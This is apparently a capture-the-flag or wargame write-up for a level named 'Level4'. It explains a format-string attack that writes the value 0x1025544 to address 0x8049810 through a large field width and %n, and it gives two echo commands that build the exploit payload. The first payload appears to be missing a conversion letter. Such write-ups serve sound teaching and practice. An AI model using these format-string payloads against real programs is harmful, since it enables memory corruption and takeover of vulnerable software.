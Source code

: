 # Level4

Pretty much the same as last level but we need to add width becasue the value we
want to write is very large.

## Useful infos

we want to write : 0x1025544 = 16930116
at address: 0x8049810 = \x10\x98\x04\x08

exploit: `echo -e "\x10\x98\x04\x08%16930112%12$n" > /tmp/exploit`
exploit: `echo -e "\x10\x98\x04\x08%16930052x%x%x%x%x%x%x%x%x%x%x%n" > /tmp/exploit`